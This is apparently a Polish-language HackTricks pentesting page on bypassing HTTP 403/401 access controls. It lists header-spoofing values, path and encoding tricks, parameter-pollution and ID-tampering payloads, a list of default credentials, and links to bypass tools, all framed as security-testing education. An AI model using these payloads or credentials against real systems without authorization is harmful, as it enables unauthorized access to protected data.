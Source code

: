 # 403 & 401 Bypassy

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Natychmiastowo dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z ponad 20 narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/" %}

## Fuzzing metod HTTP

Spróbuj użyć **różnych metod** do uzyskania dostępu do pliku: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

* Sprawdź nagłówki odpowiedzi, może być podana jakaś informacja. Na przykład, **odpowiedź 200** na **HEAD** z `Content-Length: 55` oznacza, że **metoda HEAD może uzyskać dostęp do informacji**. Ale nadal musisz znaleźć sposób na wyeksportowanie tych informacji.
* Użycie nagłówka HTTP, takiego jak `X-HTTP-Method-Override: PUT`, może nadpisać używaną metodę.
* Użyj **metody `TRACE`** i jeśli masz dużo szczęścia, może w odpowiedzi zobaczysz również **nagłówki dodane przez pośrednie serwery proxy**, które mogą być przydatne.

## Fuzzing nagłówków HTTP

* **Zmień nagłówek Host** na jakąś dowolną wartość ([to zadziałało tutaj](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
* Spróbuj [**użyć innych User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) do uzyskania dostępu do zasobu.
* **Fuzz nagłówków HTTP**: Spróbuj użyć nagłówków HTTP Proxy, podstawowej autoryzacji HTTP i NTLM brute-force (tylko z kilkoma kombinacjami) oraz innych technik. W tym celu stworzyłem narzędzie [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).

* `X-Originating-IP: 127.0.0.1`
* `X-Forwarded-For: 127.0.0.1`
* `X-Forwarded: 127.0.0.1`
* `Forwarded-For: 127.0.0.1`
* `X-Remote-IP: 127.0.0.1`
* `X-Remote-Addr: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `X-Original-URL: 127.0.0.1`
* `Client-IP: 127.0.0.1`
* `True-Client-IP: 127.0.0.1`
* `Cluster-Client-IP: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `Host: localhost`

Jeśli **ścieżka jest chroniona**, możesz spróbować obejść ochronę ścieżki, używając tych innych nagłówków:

* `X-Original-URL: /admin/console`
* `X-Rewrite-URL: /admin/console`
* Jeśli strona jest **za proxy**, może to proxy uniemożliwiać ci dostęp do prywatnych informacji. Spróbuj wykorzystać [**HTTP Request Smuggling**](../../pentesting-web/http-request-smuggling/) **lub** [**nagłówki hop-by-hop**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
* Fuzz [**specjalne nagłówki HTTP**](special-http-headers.md), szukając różnych odpowiedzi.
* **Fuzzuj specjalne nagłówki HTTP**, podczas fuzzowania **metod HTTP**.
* **Usuń nagłówek Host** i może uda ci się obejść ochronę.

## Fuzzing **ścieżki**

Jeśli _/path_ jest zablokowane:

* Spróbuj użyć _**/**_**%2e/path \_(jeśli dostęp jest zablokowany przez proxy, to może obejść ochronę). Spróbuj także**\_\*\* /%252e\*\*/path (podwójne kodowanie URL)
* Spróbuj **obejścia Unicode**: _/**%ef%bc%8f**path_ (zakodowane znaki URL są jak "/"), więc po ponownym zakodowaniu będzie to _//path_ i może już udało ci się obejść kontrolę nazwy _/path_
* **Inne obejścia ścieżki**:
* site.com/secret –> HTTP 403 Forbidden
* site.com/SECRET –> HTTP 200 OK
* site.com/secret/ –> HTTP 200 OK
* site.com/secret/. –> HTTP 200 OK
* site.com//secret// –> HTTP 200 OK
* site.com/./secret/.. –> HTTP 200 OK
* site.com/;/secret –> HTTP 200 OK
* site.com/.;/secret –> HTTP 200 OK
* site.com//;//secret –> HTTP 200 OK
* site.com/secret.json –> HTTP 200 OK (ruby)
* Użyj całej [**tej listy**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) w następujących sytuacjach:
* /FUZZsecret
* /FUZZ/secret
* /secretFUZZ
* **Inne obejścia API:**
* /v3/users\_data/1234 --> 403 Forbidden
* /v1/users\_data/1234 --> 200 OK
* {“id”:111} --> 401 Unauthorized
* {“id”:\[111]} --> 200 OK
* {“id”:111} --> 401 Unauthorized
* {“id”:{“id”:111\}} --> 200 OK
* {"user\_id":"\<legit\_id>","user\_id":"\<victims\_id>"} (Zanieczyszczenie parametru JSON)
* user\_id=ATTACKER\_ID\&user\_id=VICTIM\_ID (Zanieczyszczenie parametru)

## **Manipulacja parametrami**

* Zmień **wartość parametru**: Z **`id=123` --> `id=124`**
* Dodaj dodatkowe parametry do URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Usuń parametry
* Zmień kolejność parametrów
* Użyj znaków specjalnych.
* Wykonaj testy graniczne w parametrach — podaj wartości takie jak _-234_ lub _0_ lub _99999999_ (tylko kilka przykładowych wartości).

## **Wersja protokołu**

Jeśli używasz HTTP/1.1 **spróbuj użyć 1.0** lub nawet przetestuj, czy **obsługuje 2.0**.

## **Inne obejścia**

* Uzyskaj **IP** lub **CNAME** domeny i spróbuj **skontaktować się z nią bezpośrednio**.
* Spróbuj **obciążyć serwer**, wysyłając powszechne żądania GET ([To zadziałało dla tego gościa z Facebookiem](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
* **Zmień protokół**: z http na https, lub z https na http
* Przejdź do [**https://archive.org/web/**](https://archive.org/web/) i sprawdź, czy w przeszłości ten plik był **ogólnodostępny**.

## **Brute Force**

* **Zgadnij hasło**: Przetestuj następujące powszechne dane uwierzytelniające. Czy wiesz coś o ofierze? Lub nazwę wyzwania CTF?
* [**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-brute)**:** Spróbuj podstawowej, digest i autoryzacji NTLM.

{% code title="Powszechne dane uwierzytelniające" %}
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
{% endcode %}

## Narzędzia automatyczne

* [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
* [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
* [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
* [Rozszerzenie Burp - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
* [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)
* [NoMoreForbidden](https://github.com/akinerk/NoMoreForbidden)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z ponad 20 narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
